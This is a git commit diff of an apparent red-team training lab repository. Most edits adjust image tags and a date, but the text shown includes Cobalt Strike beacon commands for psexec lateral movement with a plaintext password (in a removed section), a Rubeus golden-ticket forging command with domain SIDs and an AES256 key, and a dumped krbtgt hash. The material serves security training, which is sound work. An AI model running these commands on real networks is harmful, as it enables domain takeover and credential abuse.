

1 Day \o/

Changed region(s): [[0.0, 0.0, 1.0, 0.9156], [0.8265, 0.827, 0.949, 0.9451], [0.8265, 0.9747, 0.8878, 1.0]]

diff --git a/labs/defence-evasion-lab-Malleable.md b/labs/defence-evasion-lab-Malleable.md
@@ -801,33 +801,9 @@ beacon back via SMB. You need the payload already on the target (uploaded separa
 use a PowerShell one-liner via WMI to download and execute. WMI execution is logged via
 Event ID 4688 (process creation) and WMI activity log — less noisy than a service but not silent.
 
----
+> `jump psexec64` (OPSEC-🔴UNSAFE — last resort only)  
 
-#### Option 4 — `jump psexec64` (OPSEC-🔴UNSAFE — last resort only)
-
-Only use if WinRM is disabled, SCShell fails, and WMI is blocked.
-
-```cs
-beacon> make_token CONTOSO\rsteel Passw0rd!
-
-// REQUIRED: override spawnto for service payload BEFORE running psexec
-// post-ex spawnto_x64 env vars do NOT resolve in SYSTEM service context
-beacon> ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
-
-beacon> jump psexec64 lon-ws-1 smb
-```
-
-> `ak-settings` only affects the Artifact Kit service payload spawnto. It does not affect
-> the `post-ex.spawnto_x64` profile setting. These are separate controls.
-
-**What this generates — understand before using:**
-- Event 7045 on target (new service installed) → explicit OPSEC deduction
-- Event 4697 (security log) — service installed
-- Network authentication events (4624/4672)
-- File write of the service binary to `ADMIN$` share
-- Service creation + immediate deletion pair (7045 + service stop events)
-
-<img src="/images/defence-evasion-lab-07.png" width=1024>
+<img src="/images/defence-evasion-lab-07.png" width=860>
 
 ---
 

diff --git a/labs/Parent-Child-Trusts.md b/labs/Parent-Child-Trusts.md
@@ -79,11 +79,13 @@ Credentials
 
 ## Golden Exploitation
 
-1. On the Attacker Desktop, forge a golden ticket and output to a kirbi file.
+1. On the Attacker Desktop, forge a golden ticket and output to a kirbi file in powershell terminal.
 
     ```Terminal-nocolor
     C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:S-1-5-21-690277740-3036021016-2883941857 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /aes256:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /outfile:C:\Users\Attacker\Desktop\golden
     ```
+
+<img src="/images/powershell_Rubeus_golden_dublin_output.png">  
 
 2. Inject the Golden ticket into the Beacon session.
 
@@ -147,6 +149,8 @@ Supplemental Credentials:
     Credentials
       aes256_hmac       (4096) : 512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c
 ```
+
+<img src="/images/Parent-Child-Trusts-dcsync-contoso-krbtgt.png">  
 
 ⚠ In this lab, you have forged a golden ticket using SID history to impersonate an enterprise admin, and hop a parent-child trust.
 

diff --git a/labs/kerberos-challenge.md b/labs/kerberos-challenge.md
@@ -158,7 +158,7 @@ Run this in a **local PowerShell terminal on the attacker desktop** (not via bea
 
 > The `.kirbi` file is written to the attacker desktop only — nothing is written to the target DC. `kerberos_ticket_use` reads the file from the CS client and injects it over the C2 channel.
 
-<img src="/images/kerberos-challenge04.png" width=860>
+<img src="/images/kerberos-challenge04.png">
 
 > PowerShell terminal showing the TGT ticket flags (`forwardable, forwarded, pre_authent, renewable`) confirming the ticket is usable for delegation, and the `WriteAllBytes` command saving the base64 service ticket to `.kirbi` on the attacker desktop.
 

diff --git a/labs/pivoting-SOCKS-lab.md b/labs/pivoting-SOCKS-lab.md
@@ -143,6 +143,8 @@ Click **OK** again.
 | Target ports | `Any`                        |
 | Action       | Proxy SOCKS5 10.0.0.5        |
 
+<img src="/images/Proxification-Rules-target-hosts-network-subnet-proxychains.png">  
+
 Click **OK** → **OK**.
 
 > **Why `/23`?** The CONTOSO lab environment spans `10.10.120.0/23` (covers `.120.x` and `.121.x` subnets). Adjust the CIDR to match the actual target range shown in your lab environment. Routing only the target subnet prevents all Attacker Desktop traffic from going through the beacon.

diff --git a/README.md b/README.md
@@ -141,4 +141,4 @@
 
 <img src="/images/RedTeamOperationsPractitioner.png" width=400>  
 
-🇿🇦 29April2026 🇿🇦  
+🇿🇦 01May2026 🇿🇦  
